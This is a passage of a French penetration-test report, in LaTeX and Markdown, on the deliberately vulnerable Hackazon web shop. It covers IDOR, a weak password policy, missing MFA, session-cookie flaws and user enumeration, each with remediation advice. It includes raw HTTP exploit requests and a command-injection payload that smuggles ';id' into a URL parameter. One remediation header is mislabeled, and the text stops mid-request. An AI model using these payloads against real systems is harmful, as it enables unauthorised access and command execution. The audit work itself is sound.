\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-OUTDATED-VERSIONS : Recommandation de mise à jour des logiciels}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Modéré à Élevé} & \textbf{Priorité estimée : 3 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Pour assurer la sécurité et la stabilité de l'application, il est recommandé de mettre à jour les composants logiciels concernés :
    1. **Mettre à jour PHP, jQuery, et MySQL** vers les versions supportées et sécurisées pour bénéficier des dernières corrections de sécurité.
    2. **Remplacer Flash** : Étant donné que Flash n'est plus supporté, il est recommandé de le remplacer par des technologies modernes comme **HTML5** ou **JavaScript** pour éliminer les risques liés à son utilisation.
} \\
\hline
\end{tabular}
\end{table}


#### Gestion des identités

##### Détection de mots de passe utilisateur
\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-08 : Détection de mots de passe utilisateur}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Critique} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

Lors de l'analyse du mécanisme d'authentification, plusieurs mots de passe utilisateur ont été découverts à travers une attaque par force brute ou fuzzing, ce qui démontre un manque de robustesse dans la politique de gestion des mots de passe. Les mots de passe suivants ont été détectés, comme le montre la capture d'écran ci-dessous.

---


---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-08 : Détection de mots de passe utilisateur}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Moyen} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est fortement recommandé de mettre en œuvre une politique de mots de passe robustes comprenant des critères comme la longueur minimale, la complexité (caractères spéciaux, chiffres, lettres majuscules/minuscules), ainsi que la mise en place d'un mécanisme de limitation des tentatives de connexion pour prévenir les attaques par force brute.
} \\
\hline
\end{tabular}
\end{table}


##### Accès à des ressources n'appartenant pas à l'utilisateur (IDOR)

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-IDOR : Non vérification des accès à certaines ressources}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Faible} & \textbf{Facile} & \textbf{2 / 4} \\
\hline
\end{tabular}
\end{table}

L'audit a révélé une vulnérabilité IDOR (Insecure Direct Object Reference) dans l'application, permettant à un utilisateur d'accéder à des ressources qui ne lui appartiennent pas en modifiant des paramètres dans l'URL ou le corps des requêtes.

---




Sur la capture d'écran ci-dessus, nous avons pu accéder à la commande d'un utilisateur tiers simplement en modifiant le numéro de commande dans l'URL. Voici quelques autres exemples similaires :

Voici la requête vulnérable:	 

```
GET /account/orders/10000021 HTTP/2
Host: hackazon.trackflaw.com
Cookie: PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXX; visited_products=%2C81%2C102%2C16%2C
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://hackazon.trackflaw.com/account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
				   
Priority: u=0, i
Te: trailers
```

- **Affichage des tickets du helpdesk :** En modifiant le numéro de ticket dans le corps d'une requête **POST**, nous avons pu accéder à un ticket appartenant à un autre utilisateur.

Voici la requête vulnérable:

```
POST /helpdesk/HelpdeskService HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: text/x-gwt-rpc; charset=utf-8
X-Gwt-Permutation: D9E6FA1B6C016BB53C508E629B022D27
X-Gwt-Module-Base: https://hackazon.trackflaw.com/helpdesk/
Content-Length: 170
Origin: https://hackazon.trackflaw.com
Referer: https://hackazon.trackflaw.com/helpdesk/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: red
Te: trailers

7|0|5|https://hackazon.trackflaw.com/helpdesk/|5861BBAC393F609060A1E4008EC18E2B|com.ntobjectives.hackazon.helpdesk.client.HelpdeskService|getEnquiryById|I|1|2|3|4|1|5|21|
```



- **Whishlist utilisateur :** En modifiant arbitrairement le numéro dans l'URL, il est possible d'accéder à la whishlist d'un autre utilisateur.

Voici la requête vulnérable:

```
GET /wishlist/view/2 HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Pwnfox-Color: red
Priority: u=0, i
Te: trailers
```



---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-IDOR : Recommandation pour implémenter des contrôles d'accès rigoureux}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Modéré} & \textbf{Priorité estimée : 2 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé d'implémenter des contrôles d'accès rigoureux :
    1. **Vérification côté serveur** : Chaque requête effectuée par un utilisateur doit vérifier si celui-ci est autorisé à accéder aux ressources demandées.
    2. **Indépendance des paramètres fournis par l'utilisateur** : Cette vérification doit être indépendante des paramètres fournis par l'utilisateur, garantissant ainsi qu'aucun utilisateur ne puisse accéder à des ressources qui ne lui appartiennent pas en modifiant simplement un paramètre dans l'URL ou le corps de la requête.
} \\
\hline
\end{tabular}
\end{table}

#### Authentification

##### Absence de protection renforcée par authentification multifacteur
Une vulnérabilité critique a été identifiée sur la plateforme Hackazon concernant l'absence de mécanisme d'authentification multifacteur (MFA). En l'absence de cette couche de sécurité supplémentaire, les comptes des utilisateurs sont exposés à un risque accru de compromission, notamment par des attaques par phishing, des tentatives de force brute ou d'autres méthodes d'authentification non sécurisées.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-MFA-ABSENCE : Absence d'authentification multifacteur	}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Modéré} & \textbf{Facile} & \textbf{2 / 4} \\
\hline
\end{tabular}
\end{table}

**Détails de l'exploitation**
La vulnérabilité provient de l'absence d'une méthode d'authentification renforcée lors de la connexion des utilisateurs. Cela signifie que seuls les identifiants de connexion (nom d'utilisateur et mot de passe) sont nécessaires pour accéder à des comptes sensibles, permettant ainsi aux attaquants de prendre le contrôle des comptes d'utilisateur avec un minimum d'efforts.

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-06 : Injection de commandes}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Élevé} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Implémenter un mécanisme d'authentification multifacteur : Ajouter une couche de sécurité en demandant aux utilisateurs de vérifier leur identité via un second facteur, tel qu'un code envoyé par SMS, un e-mail de vérification ou une application d'authentification.
} \\
\hline
\end{tabular}
\end{table}

##### Absence de fonctionnalité de changement de mot de passe

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-NO-PASSWORD-CHANGE : Absence de fonctionnalité de changement de mot de passe}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Modéré} & \textbf{Facile} & \textbf{2 / 4} \\
\hline
\end{tabular}
\end{table}

L'audit a révélé que l'application ne propose aucune fonctionnalité permettant aux utilisateurs de modifier leur mot de passe, ce qui limite leur capacité à sécuriser leur compte en cas de compromission ou à renforcer la sécurité de leur authentification.

---



La capture d'écran ci-dessus montre que l'interface utilisateur ne présente aucun lien ou bouton pour modifier le mot de passe, laissant les utilisateurs avec leur mot de passe initial sans option pour le changer.

---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-NO-PASSWORD-CHANGE : Recommandation pour ajouter la fonctionnalité de changement de mot de passe}}} \\ \hline
\textbf{Complexité estimée : Modéré} & \textbf{Travail/coût estimé : Modéré} & \textbf{Priorité estimée : 2 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé d'ajouter une fonctionnalité de changement de mot de passe avec les bonnes pratiques suivantes :
    1. **Option accessible dans le profil utilisateur** : Un lien ou bouton permettant aux utilisateurs de modifier leur mot de passe depuis leur espace personnel.
    2. **Demande du mot de passe actuel** : Avant tout changement de mot de passe, l'application doit demander le mot de passe actuel pour prévenir tout abus.
    3. **Protection CSRF** : Implémenter un jeton CSRF pour prévenir les attaques de type "Cross-Site Request Forgery" (CSRF) et éviter les futures vulnérabilités liées aux requêtes frauduleuses.
} \\
\hline
\end{tabular}
\end{table}


#### FaiblePolitiqueDeMotDePasse

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-PASSWORD-POLICY : Faible politique de mot de passe}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Moyen} & \textbf{Facile} & \textbf{2 / 4} \\
\hline
\end{tabular}
\end{table}

L'audit a révélé une faible politique de mot de passe dans l'application. Il est possible d'enregistrer des mots de passe très simples sans aucune complexité, ce qui peut exposer les comptes à des attaques par force brute ou par devinette.

La requête :

```
POST /user/register HTTP/2
Host: hackazon.trackflaw.com
Cookie: PHPSESSID=XXXXXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: https://hackazon.trackflaw.com
Referer: https://hackazon.trackflaw.com/user/register
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: red
Priority: u=0, i
Te: trailers

first_name=toto&last_name=tata&username=toto&email=toto%40tata.fr&password=1&password_confirmation=1
```
---



La capture d'écran ci-dessus montre la possibilité de créer un compte avec un mot de passe simple sans restriction de complexité.

---

**Remediation**

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-PASSWORD-POLICY : Recommandation pour renforcer la politique de mot de passe}}} \\ \hline
\textbf{Complexité estimée : Faible} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 2 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de renforcer la politique de mot de passe en imposant les bonnes pratiques suivantes :
    1. **Complexité minimale** : Exiger au moins 8 caractères avec un mélange de majuscules, minuscules, chiffres et caractères spéciaux.
    2. **Expiration des mots de passe** : Mettre en place une expiration périodique des mots de passe et demander une mise à jour après un certain temps.
    3. **Vérification de mot de passe fort** : Utiliser un indicateur de force de mot de passe pour encourager les utilisateurs à créer des mots de passe robustes.
} \\
\hline
\end{tabular}
\end{table}


#### Autorisations

##### Absence de séparation des droits d'accès à l'API
Une vulnérabilité significative a été identifiée concernant la gestion des rôles d'accès dans l'API de la plateforme Hackazon. Actuellement, il n'existe pas de rôle administrateur distinct, ce qui signifie que tous les utilisateurs ont accès à 100 % des fonctionnalités de l'API. Cette absence de contrôle d'accès approprié expose l'application à divers risques de sécurité, permettant aux utilisateurs non autorisés d'exécuter des actions sensibles et potentiellement nuisibles.

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-API-ACCESS : Absence de rôle administrateur dans l'API}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Élevé} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

**Détails de l'exploitation** 
Cette vulnérabilité résulte de l'absence de contrôles d'accès basés sur les rôles pour les différentes fonctionnalités exposées par l'API. Par conséquent, toute personne disposant d'une clé d'accès à l'API peut exécuter des opérations réservées aux administrateurs, telles que la modification ou la suppression de données, sans aucune restriction.

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-API-ACCESS : Implémenter une gestion des rôles d'accès}}} \\ \hline
\textbf{Complexité estimée : Élevé} & \textbf{Travail/coût estimé : Élevé} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Actions correctives recommandées :
- Implémenter une gestion des rôles d'accès : Créer des rôles d'utilisateur distincts, tels que « administrateur », « utilisateur » et « invité », avec des permissions spécifiques pour chaque rôle. Cela permettra de restreindre l'accès aux fonctionnalités critiques de l'API.
- Vérification des permissions au niveau de l'API : Chaque appel API doit inclure des vérifications de permission pour s'assurer que l'utilisateur a les droits nécessaires pour exécuter l'action demandée.
- Audit régulier des droits d'accès : Effectuer des audits réguliers pour vérifier les permissions des utilisateurs et s'assurer qu'elles sont correctement appliquées.
- Formation des développeurs : Sensibiliser les développeurs aux bonnes pratiques de sécurité et à l'importance des contrôles d'accès dans le développement d'API.
} \\
\hline
\end{tabular}
\end{table}


##### Création d'un jeton API ouvert à tous les utilisateurs

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-TOKEN : Droit de demande de jeton API trop laxiste}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Mineur} & \textbf{Facile} & \textbf{1 / 4} \\
\hline
\end{tabular}
\end{table}

Un manque de contrôle a été identifié concernant la demande de jeton API. Aucune vérification des droits d'accès n'est effectuée lors de la demande d'un token API, permettant à tout utilisateur basique d'obtenir un jeton API sans restrictions.

---



Sur la capture d'écran ci-dessus, nous avons pu demander un jeton API en fournissant simplement les informations de connexion d'un utilisateur basique, sans contrôle d'accès renforcé.

---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-TOKEN : Recommandation pour implémenter un contrôle d'accès basé sur le rôle}}} \\ \hline
\textbf{Complexité estimée : Faible} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 1 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé d'implémenter un contrôle d'accès basé sur le rôle des utilisateurs :
    1. **Contrôle d'accès renforcé** : Seuls les utilisateurs ayant des privilèges spécifiques doivent pouvoir demander un jeton API. Cela doit être vérifié côté serveur avant toute génération de jeton.
    2. **Vérification du rôle de l'utilisateur** : L'application doit vérifier si l'utilisateur possède le rôle nécessaire pour accéder à cette fonctionnalité.
} \\
\hline
\end{tabular}
\end{table}

#### Gestion des sessions

##### Absence d'expiration de session

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-03 : Absence d'expiration de session}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Majeur} & \textbf{Facile} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

En vérifiant les sécurités des cookies, on peut apercevoir que les sessions n'ont pas d'expiration.




\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-03 : Absence d'expiration de session}}} \\ \hline
\textbf{Complexité estimée : Faible} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 3 / 4} \\
\hline
% Nouvelle ligne avec beaucoup de texte
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé d’implémenter une politique d'expiration des sessions qui invalide les sessions après une période d'inactivité définie (ex : 15 minutes). Cela peut être combiné avec des techniques comme le renouvellement des cookies et des notifications d'expiration.
} \\
\hline
\end{tabular}
\end{table}

##### Cookie de Session sans Attributs Secure, HttpOnly, et SameSite

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-07 : Cookie de Session sans Attributs Secure, HttpOnly, et SameSite}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Majeur} & \textbf{Facile} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

En analysant les cookies de session de l'application, il a été constaté que le cookie de session PHP n'était pas protégé par les attributs `Secure`, `HttpOnly`, et `SameSite`. Cela rend le cookie vulnérable aux attaques telles que le vol de session via un réseau non sécurisé ou les attaques Cross-Site Scripting (XSS).

---



---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-07 : Cookie de Session sans Attributs Secure, HttpOnly, et SameSite}}} \\ \hline
\textbf{Complexité estimée : Faible} & \textbf{Travail/coût estimé : Faible} & \textbf{Priorité estimée : 3 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de configurer les cookies de session avec les attributs `Secure`, `HttpOnly`, et `SameSite`. L'attribut `Secure` garantit que les cookies ne sont envoyés que via une connexion HTTPS, `HttpOnly` empêche les scripts côté client d'accéder aux cookies, et `SameSite` empêche les attaques Cross-Site Request Forgery (CSRF).
} \\
\hline
\end{tabular}
\end{table}


#### Validation des entrées utilisateurs

##### Injection de commandes

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-06 : Injection de commandes}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Critique} & \textbf{Facile} & \textbf{4 / 4} \\
\hline
\end{tabular}
\end{table}

En analysant l'URL `https://hackazon.trackflaw.com/account/documents?page=terms.html;id`, on constate que le paramètre `page` est vulnérable à une injection de commandes système. Cette vulnérabilité permet à un attaquant d'exécuter des commandes directement sur le serveur.

---

**Requête HTTP**

```
GET /account/documents?page=terms.html;id HTTP/2
Host: hackazon.trackflaw.com
Cookie: PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXX; visited_products=%2C1%2C208%2C15%2C101%2C81%2C21%2C
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Pwnfox-Color: blue
Priority: u=0, i
Te: trailers
```


---

*Remediation*

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|>{\centering\arraybackslash}p{5cm}|}
\hline
\multicolumn{3}{|>{\columncolor{cyan}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-06 : Injection de commandes}}} \\ \hline
\textbf{Complexité estimée : Moyenne} & \textbf{Travail/coût estimé : Élevé} & \textbf{Priorité estimée : 4 / 4} \\
\hline
\multicolumn{3}{|p{16.30cm}|}{
    Il est recommandé de valider et d'assainir strictement tous les paramètres passés dans les URLs, en particulier ceux qui interagissent avec des commandes système. Des mécanismes comme l'utilisation de bibliothèques sécurisées ou l'échappement des caractères spéciaux devraient être appliqués pour éviter toute injection.
} \\
\hline
\end{tabular}
\end{table}

**Enumeration utilisateur**

\begin{table}[htbp]
\centering
\renewcommand{\arraystretch}{1.5} % Augmente l'espacement entre les lignes
\begin{tabular}{|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{4cm}|>{\centering\arraybackslash}p{3cm}|}
\hline
\multicolumn{4}{|>{\columncolor{red}\centering\arraybackslash}p{16.30cm}|}{\textcolor{white}{\textbf{VULN-10 : Énumération d'utilisateur}}} \\ \hline
\rowcolor{gray!30}
\textbf{\textcolor{black}{État}} & \textbf{Impact} & \textbf{Difficulté d'exploitation} & \textbf{Sévérité} \\ \hline
\textbf{Avérée} & \textbf{Modéré} & \textbf{Facile} & \textbf{3 / 4} \\
\hline
\end{tabular}
\end{table}

L'application divulgue des informations sensibles lors de l'enregistrement ou de la récupération de mot de passe pour les utilisateurs. Lorsqu'un utilisateur tente de s'inscrire ou de récupérer un mot de passe, l'application révèle si l'adresse email ou le nom d'utilisateur existe déjà, permettant à un attaquant de cartographier les comptes existants.

---


```
POST /user/register HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: https://hackazon.trackflaw.com
Referer: https://hackazon.trackflaw.com/user/register
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: red
Priority: u=0, i
Te: trailers

first_name=toto&last_name=toto&username=test_user&email=test%40example.com&password=1&password_confirmation=1
```


```
POST /user/password HTTP/2
Host: hackazon.trackflaw.com
Cookie: visited_products=%2C64%2C72%2C1%2C81%2C; PHPSESSID=XXXXXXXXXXXXXX
